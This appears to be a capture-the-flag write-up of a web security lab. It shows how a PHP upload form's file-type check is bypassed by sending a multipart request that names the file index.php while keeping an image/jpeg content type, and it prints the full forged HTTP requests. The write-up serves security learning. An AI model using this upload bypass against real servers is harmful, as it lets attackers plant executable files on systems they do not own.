


## UPLOAD IMAGE PHP

This vulnerability revolves around uploading a file that you are no supossed to be able to upload.
</br>
If you upload an image and inspect element, you can read the request you've sent</br>

```
POST /index.php?page=upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 47292
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySsLntzim2PBLXcHo
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Host: 10.13.8.6:2222
Origin: http://10.13.8.6:2222
Referer: http://10.13.8.6:2222/index.php?page=upload
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
```

And if you inspect its payload you will see how the image and the form data are uploaded

```
------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="uploaded"; filename="51f3O5BDZ9L.jpeg"
Content-Type: image/jpeg


------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundarySsLntzim2PBLXcHo--
```

This is sent in the body part of the request, so you should be able to see the photo in the format of a monumental string. As you can see there is no random string anywhere, that because to simplify the reading of this or some oder pedagogical reason the body doesnt have the string. But it should be right bellow Content-Type: image/jpeg</br>

Usually when you can upload files to a server, the admin of the server just wants certain types of files to be able to be uploaded but if you dont trust the user will just try to upload files of that type you are up for some trouble. As users can send malicious files, overwrite .php files, and so on.

We can actually do this by sending the request ourselves and writting the body manually. If we keep the Content-type: image/jpeg header and send a .php file the server allows that to be uploaded. We can do that by using Curl or thunderclient/postman. The body should look something like this:

```
------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="uploaded"; filename="index.php"
Content-Type: image/jpeg


------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryCASCOSVACA1--
```

And the whole request should look something like this:
```
POST /index.php?page=upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCASCOSVACA1
Content-Length: 260

------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="uploaded"; filename="index.php"
Content-Type: image/jpeg


------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryCASCOSVACA1--
```
</br>
Once this request is send you can see that the html is displaying a flag


